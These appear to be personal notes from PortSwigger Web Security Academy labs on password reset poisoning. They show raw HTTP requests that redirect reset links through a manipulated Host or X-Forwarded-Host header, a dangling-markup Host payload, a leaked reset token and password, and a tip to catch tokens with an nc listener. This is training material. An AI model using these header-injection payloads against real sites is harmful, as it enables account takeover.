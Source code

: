 all technique that Portswigger teach us, read [here](https://portswigger.net/web-security/host-header/exploiting)

# Password reset poisoning
## general
Note the email is sent to you even tho we changed the `Host header` to point to somewhere else. The plan is we will change host name to a malicious site or the site that we have a control of. The easies way to do this is user the exploit server that the Lab offers.


I then changed host header to ``<original>.com/exploit/` and set it to myself. When I click on it I will send a GET request to the server. On the Access log, I can see that there was a incoming request for `/exploit/forgot-password?temp-forgot-password-token=<token here>`


The goal is change the host header to `<original>.com/exploit/` and change `user=carlos`. Carlos will click on the email and we will then be able to see it on the access log. we will the copy the token and use it to reset carlos password!


Note: If we do ctf, just point it to our `ip:port` and run `nc` listen to that port

## via middleware
```
POST /forgot-password HTTP/1.1
Host: acef1f6f1f685ced80bd5a0d008b0020.web-security-academy.net
X-Forwarded-Host: accd1fba1fc55c3180755a7501740032.web-security-academy.net/exploit
```
same as last task but we cannot use the same trick. This time we are using `X-Forwarded-Host`. How this I find out? just trying out the techniques that PortSwigger mentioned before.. So now when we know that is work by trying on our own account. change `user=carlos` -> check access log for token `/forgot-password?temp-forgot-password-token=wSoizV4lQdJDO84TTnBa6V6cj610GiIT`. Visit it and reset Carlos password!

## via dangling markup
```html
     <script>
            window.addEventListener('DOMContentLoaded', () => {
                for (let el of document.getElementsByClassName('dirty-body')) {
                    el.innerHTML = DOMPurify.sanitize(el.getAttribute('data-dirty'));
                }
            });
        </script>
```

```
POST /forgot-password HTTP/1.1
Host: ac051fe31fa115bd809f1db800380059.web-security-academy.net:'<a href="//ace31ff61f66157680481d3c01e4005d.web-security-academy.net/exploit/
```

```html
<p>Hello!</p><p>Please <a href='https://ac051fe31fa115bd809f1db800380059.web-security-academy.net:'<a href="//ace31ff61f66157680481d3c01e4005d.web-security-academy.net/exploit/?/login'>click here</a> to login with your new password: pUFVxOIq1g</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>
```

no way, I logged into the server with carlos but wasn't done taking note, and do more experiment.... can we redo the lab?
